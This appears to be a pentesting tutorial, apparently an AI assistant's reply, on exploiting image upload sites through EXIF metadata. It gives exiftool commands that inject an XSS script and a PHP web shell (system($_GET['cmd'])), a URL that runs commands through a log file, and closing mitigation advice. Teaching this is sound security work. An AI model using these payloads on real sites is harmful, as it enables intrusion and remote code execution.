 
# ExifTool Sample Scenario + Methology 

### **Scenario: Example Vulnerable Web Application**

Let’s assume you’ve found a website that allows users to **upload images**. The app might display images along with metadata (e.g., description or comments) extracted from the image's EXIF data.

#### **Example Web Application:**
- **URL**: `http://example.com/upload`
- **Functionality**: The website allows users to upload images and displays them in a gallery. Each image has associated metadata (e.g., `Comment`, `Description`, `Title`) which is extracted from the image and displayed as an image caption or description.

---

### **Step-by-Step Walkthrough:**

#### **1. Inspect the Image Metadata Using `ExifTool`**
Let’s say you have an image with the following metadata:
```bash
$ exiftool myimage.jpg
...
Comment                         : This is a squirrel!
```

---

#### **2. Upload the Image to the Web Application**
You upload `myimage.jpg` to `http://example.com/upload` (or the relevant upload page). After uploading, the app might display something like:
```html
<img src="/uploads/myimage.jpg" alt="This is a squirrel!">
```

At this point, **nothing malicious has happened yet** because the app is simply showing the metadata (`Comment`) as the `alt` text, and there’s no injection or processing involved.

---

#### **3. Test for Unsanitized Metadata with Malicious Payloads**
Next, you want to see if the app allows injection of malicious data into the metadata. You modify the image's metadata using `ExifTool`:

```bash
exiftool -Comment='"><script>alert("XSS")</script>' myimage.jpg
```

Now, when you upload this image to the same application, it might insert the `alt` attribute with the injected script like so:

```html
<img src="/uploads/myimage.jpg" alt=""><script>alert("XSS")</script>">
```

This would trigger **XSS** if the app does not sanitize the metadata before rendering it in the HTML.

---

### **4. Look for Logging or Processing of Metadata (Signs of RCE Vulnerability)**

Now let’s consider the possibility that the app is logging or processing the metadata in an unsafe way. Here's how to identify if the app might be vulnerable to **Remote Code Execution (RCE)**:

#### **A. Look for Application Logs or Error Messages**
- Check if the application produces error messages or displays **logs** that could indicate it's logging metadata.
  - Example: You might see an admin panel or debug screen showing something like:
    ```bash
    [INFO] Image uploaded: myimage.jpg
    [INFO] Metadata extracted: Comment: <?php system($_GET["cmd"]); ?>
    ```
  - If you see that the app is extracting and logging metadata, it’s a sign that the metadata is stored and possibly executed somewhere.

#### **B. Inspect for Admin Panel or Debugging Logs**
Check if there is an **admin panel** or any place where logs are displayed. Sometimes, web apps log uploads for auditing or debugging purposes. These logs could store metadata, and if not sanitized, could lead to code execution vulnerabilities.

For example:
- The app might save the metadata to a file on the server, e.g., `uploads.log` or `metadata.log`.
- Check if these log files are accessible:
  - **Try accessing logs directly** (if public):  
    ```
    http://example.com/logs/uploads.log
    ```
    Or, if there’s a known path for logs (like `/var/www/html/logs/`), try finding any logs there.

#### **C. Test for Web Shell in Metadata**
If you believe the app logs metadata unsafely, you could inject a **PHP web shell** into the `-Comment` field and see if the app executes it. Use `ExifTool` to inject the following payload into the metadata:

```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' myimage.jpg
```

Now, when you upload the image, the app might log or process the `-Comment` metadata and save it in a **file** or **database**. If this metadata is stored and executed by the app later (either by a file reader or server-side script), an attacker could trigger a **Remote Code Execution**.

For example, if the app saves metadata to a file like `uploads.log` and then executes the logs as PHP, you could access the following URL to execute arbitrary commands:
```
http://example.com/logs/uploads.log?cmd=id
```
This would execute the PHP code in the metadata (e.g., `system($_GET["cmd"])`) and display the result of the `id` command.

---

### **5. Conclusion and Mitigation Steps**

If you can inject a PHP payload into the metadata and trigger **RCE** by accessing a log file or processed data, the application is vulnerable to **remote code execution**.

#### **Signs of Potential RCE Vulnerability:**
- The app extracts and logs metadata (like `Comment`, `Description`, etc.).
- Metadata is saved to a file or database without proper sanitization.
- The app executes metadata directly or stores it in logs that are later processed.

#### **Mitigation Steps:**
1. **Sanitize Metadata**: Never store or display raw user input without sanitizing it (e.g., escaping dangerous characters).
2. **Secure Logs**: Make sure logs cannot be executed as scripts. Log files should be stored outside of the web root.
3. **Avoid Direct Execution of Metadata**: Don't use user-controlled data (like metadata) in shell commands or execution contexts without proper validation and escaping.

---

This example illustrates how **unsanitized metadata** can be exploited for **XSS** or **RCE attacks**, especially if it's logged or processed unsafely. Let me know if you'd like a more detailed example or help with testing this on a safe platform!
